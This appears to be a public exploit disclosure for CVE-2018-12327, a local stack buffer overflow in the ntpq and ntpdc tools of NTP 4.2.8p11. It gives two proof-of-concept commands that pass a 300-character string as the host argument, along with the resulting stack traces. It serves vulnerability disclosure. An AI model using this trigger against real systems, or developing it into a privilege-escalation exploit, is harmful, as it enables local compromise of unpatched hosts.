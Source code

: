 Exploit Title: ntpq and ntpdc 4.2.8p11 Local Buffer Overflow<br>
Date: 2018-06-06<br>
Exploit Author: Fakhri Zulkifli (@d0lph1n98)<br>
Vendor Homepage: http://www.ntp.org/<br>
Software Link: http://www.ntp.org/downloads.html<br>
Version: 4.2.8p11 and earlier<br>
Tested on: 4.2.8p11<br>
CVE : CVE-2018-12327<br>
<br>
Stack-based buffer overflow in ntpq and ntpdc of NTP version 4.2.8p11 allows a local attacker to achieve code execution or escalate to higher privileges via a long string as the argument for an IPv4 or IPv6 command-line parameter.<br>
<br>
$ ./ntpq -4 [`python -c 'print "A" * 300’`]<br>
<br>
#0 0x562fcada86ce in openhost /home/user/ntp-4.2.8p11/ntpq/ntpq.c:655:12<br>
#1 0x562fcada5f2a in ntpqmain /home/user/ntp-4.2.8p11/ntpq/ntpq.c:606:10<br>
#2 0x562fcada4729 in main /home/user/ntp-4.2.8p11/ntpq/ntpq.c:469:9<br>
#3 0x7f79b684982f in __libc_start_main /build/glibc-Cl5G7W/glibc-2.23/csu/../csu/libc-start.c:291<br>
#4 0x562fcac96d88 in _start (/home/user/ntp-4.2.8p11/ntpq/ntpq+0xacd88)<br>
<br>
$ ./ntpdc -4 [`python -c 'print "A" * 300'`]<br>
<br>
#0 0x55f726641efe in openhost /home/user/ntp-4.2.8p11/ntpdc/ntpdc.c:413:12<br>
#1 0x55f7266400d4 in ntpdcmain /home/user/ntp-4.2.8p11/ntpdc/ntpdc.c:365:10<br>
#2 0x55f72663f269 in main /home/user/ntp-4.2.8p11/ntpdc/ntpdc.c:255:9<br>
#3 0x7f0fc632382f in __libc_start_main /build/glibc-Cl5G7W/glibc-2.23/csu/../csu/libc-start.c:291<br>
#4 0x55f7265362d8 in _start (/home/user/ntp-4.2.8p11/ntpdc/ntpdc+0x9d2d8)<br>
<br>

